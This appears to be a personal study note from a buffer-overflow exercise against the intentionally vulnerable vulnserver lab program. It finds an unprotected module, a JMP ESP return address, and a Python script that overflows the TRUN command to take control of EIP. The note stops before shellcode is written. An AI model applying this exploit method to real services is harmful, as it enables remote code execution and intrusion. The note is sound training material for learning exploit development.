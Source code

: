 7. Finding the Right Module

We are looking for a dll inside the program, that has no memory protections: no DEP, no ASLR, no safeSEH

Can use Mona Modules tool together with ImmunityDebugger

Download mona.py and place in:
```
C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands
```

In Immunity Debugger where our program has paused, run at the bottom cmd line, `!mona modules`

We can check which protection settings are off and on

Check what is attached to vulnserver itself and has all False


 ![b9f3d69e7dea9e35f8a1438a897c0ec7.png](../../_resources/f4ade174ab3d428e97f16a8f06d1092f.png)
 
**essfunc.dll** seems ideal as the protection settings for Rebase, SafeSEH, ASLR, NXCompat, OS Dll are all False and it is attached to the vulnserver process (`\vulnserver\essfunc.dll`)

Find the operation (OP) code equivalents of a jump to a specific address: i.e. trying to convert assembly language to shellcode

How to do this: go on Linux, and `locate nasm_shell`

Run
```
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
```
On `nasm>` type the assembly code `JMP ESP`. We get:
```
nasm > JMP ESP
00000000  FFE4              jmp esp
```
will use this as a pointer for our program to look at the pointer and jump to the shell code 

Hexcode equivalent of "JMP ESP" is "FFE4"

Go back to ImmunityDebugger and type:
```
!mona find -s "\xff\xe4" -m eesfunc.dll
```
(`.ff..e4`)
In the results, we see a couple of return addresses

![78888b61a7c9766147e1e59e4a6732d3.png](../../_resources/527a2a8a950648e0a813ed38b3703070.png)

Note down some of these. For now, first result: `0x625011af`

We will use this in our shell code. This time, our Windows has x86 architecture so we need to use little-endian format as it stores the lower order byte to the lowest address and the high order byte at the higher address.
We will write the address as `\xaf\x11\x50\x62`

We want our EIP to be jump code that jumps to our malicious reverse shell code:
```
#!/usr/bin/python
import sys, socket

# The "vulnerable" return address we found was 625011af
shellcode = "A" * 2003 + "\xaf\x11\x50\x62"

while True:
	try:
		s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('10.0.2.15',9999))
		s.send(('TRUN /.:/' + shellcode ))
		s.close()
	except:
		print "Error connecting to server"
		sys.exit()
```

This should hit the same error as before but hit a Jump point 

Go back to ImmunityDebugger and try and catch the exception
Back to "C" windows of ID, click blue/black arrow pointing to the right three dots and enter our address `Enter expression to follow 625011af`

![f90f5d75a55bda5e69a0a4b40ba2e38d.png](../../_resources/11bcc55c6f2a4d1993abc116800e94c5.png)

There, we see the FFE4 JMP ESP code we were looking for. Hit F2 to set breakpoint. Then, when we run the program, it will pause there instead of moving further. 
Can now run program and then run our 5.py
The program pauses at our breakpoint and we see `EIP 625011AF essfunc.625011AF`

We now control the EIP. Now need to write/generate some shellcode, point directly to that shellcode and get root

